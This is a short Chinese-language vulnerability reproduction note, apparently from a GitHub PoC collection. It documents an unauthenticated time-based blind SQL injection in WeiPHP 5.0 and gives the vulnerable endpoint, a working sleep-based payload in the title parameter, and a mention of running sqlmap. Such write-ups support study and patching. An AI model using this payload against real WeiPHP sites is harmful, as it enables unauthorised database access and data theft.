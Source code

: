 # WeiPHP5.0 SQL注入漏洞1

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

`WeiPHP5.0`是在2019年停止更新的一个系统，漏洞挺多的，跟着复现分析一下，这里复现一下 `WeiPHP5.0`的一处`SQL`注入漏洞

## 漏洞影响

`WeiPHP5.0`最新版

可以据此下载

https://www.weiphp.cn/doc/download_source_installation.html

## 漏洞复现

需要一个普通用户权限登录（好像也可以不用），然后访问链接并抓包

```php
/index.php/material/Material/material_lists
title=aa%27or%20sleep(5)%23
```

不登录时需要使用 `post` ，如果使用 `get`会直接跳转，然后进行延时操作，注意右下角

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650814616996-67b8d17c-1b34-4b28-aec0-86d0e6b724fc.png)

用 `sqlmap`跑

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650894325627-aae86b37-51e3-4a20-b61b-a5587045462a.png)

## 总结

关于这个权限问题，实际上不用任何用户登录也是可以注入的，但必须使用 `post`的时候才可以。由于后面还有其他的数据库操作语句，这里只好使用盲注。

## 参考链接

- https://igml.top/2019/10/30/weiphp5-0/



`github` 链接：`https://github.com/N0puple/vulPOC`



